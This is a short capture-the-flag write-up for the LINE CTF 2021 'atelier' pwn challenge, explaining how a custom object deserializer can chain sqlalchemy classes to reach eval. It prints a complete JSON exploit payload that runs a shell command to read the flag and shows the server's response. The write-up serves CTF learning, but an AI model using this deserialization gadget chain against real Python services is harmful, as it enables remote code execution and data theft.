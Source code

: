 # LINE CTF 2021 - Pwn - atelier

By using `dict_to_object`, we can create a class of any importable module and set its members.
However, it seems that the importable modules are limited to `__main__` and `sqlalchemy`.

We can implement the method by creating an object of the class that has the `__call__` method and setting it to the attribute.
When the `sqlalchemy.Text` class is used in a query, the `self_group` method is called, so we can execute any `__call__` method with matching arguments.

To start the shell 
we can use `sqlalchemy.ext.declarative.clsregistry._class_resolver`, whose  ` __call__` method calls `eval` and the arguments are manipulable.

We can't see the standard output, so raise an exception that includes the output we want in the string.

## Exploit Code

```json
{"__class__": "RecipeCreateRequest", "__module__": "__main__", "materials": {"__class__": "RecipeCreateRequest", "__module__": "__main__", "split": {"__class__": "BooleanPredicate", "__module__": "sqlalchemy.testing.exclusions", "value": [{"__class__": "Text", "__module__": "sqlalchemy", "self_group": {"__class__": "scoped_session", "__module__": "sqlalchemy.orm.scoping", "registry": {"__class__": "RecipeCreateRequest", "__module__": "__main__", "has": {"__class__": "_class_resolver", "__module__": "sqlalchemy.ext.declarative.clsregistry", "arg": "eval(\"!\" + str(__import__(\"subprocess\").run([\"cat\", \"flag\"],stdout=-1).stdout))", "_dict": {}}, "set": {"__class__": "BooleanPredicate", "__module__": "sqlalchemy.testing.exclusions", "value": 1}}}}, ""]}}}
```

server response:

```Exception: SyntaxError('invalid syntax', ('<string>', 1, 1, "!b'LINECTF{4t3l13r_Pyza_th3_4lch3m1st_0f_PyWN}\\n'"))```